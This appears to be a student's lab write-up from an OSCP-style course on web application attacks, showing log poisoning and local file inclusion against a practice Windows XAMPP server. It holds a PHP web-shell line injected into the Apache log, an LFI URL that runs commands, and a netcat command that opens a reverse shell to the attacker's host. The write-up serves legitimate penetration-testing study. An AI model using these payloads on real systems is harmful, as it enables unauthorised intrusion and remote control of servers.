



9.4.4.5

# 9.4.4.5
## 9.4.4.5.1. Obtain code execution through the use of the LFI attack.
Clear the log files
```plaintext
c:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File clear_logs.ps1 
```


Send a PHP payload. It will say it is a bad request, but was it? Check the Windows logs.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -nv 192.168.214.10 80
[sudo] password for kali: 
(UNKNOWN) [192.168.214.10] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
Date: Sun, 20 Sep 2020 21:58:39 GMT
Server: Apache/2.4.33 (Win32) OpenSSL/1.1.0g PHP/7.2.4
Vary: accept-language,accept-charset
Accept-Ranges: bytes
Connection: close
Content-Type: text/html; charset=utf-8
Content-Language: en
Expires: Sun, 20 Sep 2020 21:58:39 GMT
...
```

Check the Windows machine for c:\xampp\apache\logs\access.log


Attempt LFI execution
http://192.168.214.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig



## 9.4.4.5.2. Use the code execution to obtain a full shell.
Clear the log file
```plaintext
c:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File clear_logs.ps1 
```

Open a netcat listener on Kali port 80 and type in the malicious php code
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -nv 192.168.214.10 80
(UNKNOWN) [192.168.214.10] 80 (http) open
<?php echo '<pre' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
```

Check the Windows log file (if you have access to the machine) to verify the PHP code is on the target.
```plaintext
c:\Users\admin\Documents>type c:\xampp\apache\logs\access.log                                                           192.168.119.214 - - [20/Sep/2020:22:47:42 -0700] "<?php echo '<pre' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 980 "-" "-"   
```

Open another netcat listener on Kali, port 1337 
```plaintext
kali@kali:~$ sudo nc -lvnp 1337
listening on [any] 1337 ...
```

Send a bind shell through LFI. In this case, we use netcat. Here is the link to input into the browser.
`192.168.214.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc -nv 192.168.119.214 1337 -e cmd.exe`


Notice we now have a shell


